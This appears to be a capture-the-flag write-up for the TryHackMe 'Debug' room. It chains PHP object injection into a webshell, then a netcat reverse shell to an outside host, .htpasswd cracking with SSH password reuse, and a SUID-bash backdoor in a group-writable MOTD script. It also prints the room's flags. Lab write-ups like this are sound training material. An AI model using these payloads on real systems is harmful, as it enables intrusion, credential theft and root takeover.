




# Debug

**Room:** [Debug](https://tryhackme.com/room/debug) · **Difficulty:** Medium · **OS:** Linux

A forgotten `/backup` directory leaks the PHP source for the site's contact form, which reveals an `unserialize()` call on a user-controlled GET parameter — textbook PHP object injection. Crafting a serialized `FormSubmit` object turns that bug into an arbitrary file write, which is used to drop a webshell. From there, password reuse hops laterally, and a root-owned, group-writable MOTD script gives the final privilege escalation.

---

## 1. Reconnaissance

### Port scan

```bash
nmap -sC -sV -p- --min-rate=1000 -oA nmap/debug 10.49.164.219
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### Content discovery

```bash
ffuf -u "http://10.49.164.219/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -r
```

```text
backup                  [Status: 200]
grid                    [Status: 200]
javascripts             [Status: 200]
readme.md               [Status: 200]
```

`/backup` stands out — a directory name like that often means leftover source or old files the developer forgot to remove.

---

## 2. Leaking the application's source

`/backup/` is a directory listing containing `.bak` copies of the live site's PHP:



`index.php.bak` reveals the contact-form handler:

```php
class FormSubmit
{
    public $form_file = 'message.txt';
    public $message = '';

    public function SaveMessage()
    {
        $NameArea = $_GET['name'];
        $EmailArea = $_GET['email'];
        $TextArea = $_GET['comments'];
        $this->message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";
    }

    public function __destruct()
    {
        file_put_contents(__DIR__ . '/' . $this->form_file, $this->message, FILE_APPEND);
        echo 'Your submission has been successfully saved!';
    }
}

// Leaving this for now... only for debug purposes... do not touch!
$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);

$application = new FormSubmit;
$application->SaveMessage();
```

Two things matter here: the class's `__destruct()` magic method **always** writes `$this->message` to the file named by `$this->form_file` when the object is destroyed — and a `debug` GET parameter is passed straight into `unserialize()` with **no validation**. An attacker who controls the serialized input controls both `form_file` and `message`, i.e. gets an arbitrary file write with arbitrary content. A quick sanity check confirms `message.txt` is reachable and does log submitted form data:



---

## 3. Foothold — PHP object injection to webshell

A `FormSubmit` object is crafted by hand so that `form_file` is `shell.php` and `message` is a one-line PHP webshell, then serialized:

```text
O:10:"FormSubmit":2:{s:9:"form_file";s:9:"shell.php";s:7:"message";s:28:"<?php system($_GET[123]); ?>";}
```



URL-encoded and sent as the `debug` parameter, this makes `unserialize()` build the malicious object; when the script ends, `__destruct()` fires and writes the PHP payload to `shell.php` inside the web root:

```bash
curl -i 'http://10.49.164.219/index.php?debug=O%3A10%3A%22FormSubmit%22%3A2%3A{s%3A9%3A%22form_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A7%3A%22message%22%3Bs%3A28%3A%22%3C%3Fphp%20system(%24_GET[123])%3B%20%3F%3E%22%3B}' --globoff
```

`shell.php` is now live and runs arbitrary commands via the `123` parameter:

```bash
curl 'http://10.49.164.219/shell.php?123=ls -la'
```



With that confirmed, the same parameter triggers a standard `mkfifo` reverse shell:

```text
GET /shell.php?123=rm%20%2ftmp%2ff%3bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7csh%20-i%202%3e%261%7cnc%20192.168.133.184%208443%20%3e%2ftmp%2ff HTTP/1.1
```

```bash
nc -lvnp 8443
```

```text
connect to [192.168.133.184] from (UNKNOWN) [10.49.164.219] 38850
www-data@osboxes:/var/www/html$ whoami
www-data
```

---

## 4. Lateral movement — cracking `.htpasswd` and reusing the password

A directory listing of the web root turns up an `.htpasswd` file, world-readable and left in the web root by mistake:

```bash
ls -la
cat .htpasswd
```

```text
james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1
```

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```text
jamaica          (?)
```

The cracked password `jamaica` also works for the real system account `james` over SSH — password reuse between the HTTP basic-auth file and the shell account:

```bash
ssh james@10.49.164.219
```

### User flag

```bash
cat user.txt
```

```text
7e37c84a66cc40b1c6bf700d08d28c20
```

---

## 5. Privilege escalation — writable MOTD script

`james`'s own `.bash_history` and a `Note-To-James.txt` left by "root" both point at `/etc/update-motd.d/`, where root asked James to make the SSH welcome banner "a bit more pretty" — and gave him write access to do it:

```bash
cat /home/james/Note-To-James.txt
```

```text
I gave you access to modify all these files :)
```

```bash
ls -la /etc/update-motd.d/
```

```text
-rwxrwxr-x   1 root james  1220 Mar 10  2021 00-header
```

`00-header` runs as **root** every time any user logs in over SSH (it generates the MOTD), and it's group-writable by `james`. Appending a SUID-copy command to the top of the script means the next SSH login — by anyone — runs it as root before printing the banner:

```bash
nano /etc/update-motd.d/00-header
```

```bash
#!/bin/sh

cp /bin/bash /tmp/
chmod u+s /tmp/bash
# ...original header script unchanged below...
```

A fresh SSH login as `james` triggers the MOTD script and drops a SUID copy of `bash` in `/tmp`:

```bash
ssh james@10.49.164.219
cd /tmp
./bash -p
```

### Root flag

```bash
whoami
```

```text
root
```

```bash
cd /root
cat root.txt
```

```text
3c8c3d0fe758c320d158e32f68fabf4b
```
